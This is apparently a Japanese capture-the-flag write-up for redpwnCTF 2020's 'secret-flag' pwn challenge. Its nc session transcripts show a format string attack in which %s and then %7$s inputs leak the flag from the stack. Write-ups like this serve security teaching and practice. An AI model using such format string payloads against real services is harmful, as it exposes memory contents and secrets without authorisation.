 # secret-flag:pwn:348pts
There's a super secret flag in printf that allows you to LEAK the data at an address??  
nc 2020.redpwnc.tf 31826  
[secret-flag](secret-flag)  

# Solution
ncすると名前を聞かれるようだ。  
```bash
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
Satoki
Hello there: Satoki
```
ソースもなく適当な場所へret2できないので、書式文字列攻撃(format string attack)を狙う。  
`%s`の入力で以下のようになった。  
```bash
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%s
Hello there: Hello there:
```
スタックに積まれたHello there:が出てきてしまっている。  
あとは`%n$s`でn番目まで遡ればよい。  
`%7$s`でフラグが現れた。  
```bash
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%7$s
Hello there: flag{n0t_s0_s3cr3t_f1ag_n0w}
```

## flag{n0t_s0_s3cr3t_f1ag_n0w}